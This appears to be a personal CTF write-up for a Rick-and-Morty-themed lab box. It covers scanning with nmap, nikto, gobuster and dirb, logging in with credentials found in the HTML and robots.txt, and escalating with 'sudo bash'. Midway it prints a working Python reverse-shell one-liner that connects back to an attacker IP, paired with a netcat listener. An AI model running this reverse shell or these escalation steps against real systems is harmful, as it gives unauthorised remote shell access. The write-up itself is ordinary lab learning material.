 
## important
username: R1ckRul3s
password: Wubbalubbadubdub 

```
export IP=10.10.208.82
```


```
nmap -sC -sV -oN nmap/initial $IP
```


Turns out there are a bunch of ssh ports nd protocols open
also a webserver running, let's look at that. 

in the html we found a username, so obvious. 

Next we use nikto to scan the server for known vulns 
```
nikto -h http://$IP | tee nikto.log

```

And scan for common files and paths 
```
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,py,html,css,sh,txt
```


Turns out, robots.txt exists, but has no content but `Wubbalubbadubdub`, which looks a bit like a password

also ran maybe dubbel, but workes quick, `dirb`
```
dirb $IP
```


And we have a login.php page, lest test the found hints

```
R1ckRul3s: Wubbalubbadubdub
```

Success!!
and we have a webconsole!


Now with `ls` we can see the file with our first secret ingredient~

```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.62.249",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

and setup a netcat listner `nc -lnvp 9999`


after digging arround you'll find the first ingredient.
Than you'll want to see if you can get a user with super user strenght, turns out you can easily bash into a shell
`sudo bash` or even `python3 -c "import pty;pty.spawn('/bin/bash')"` 






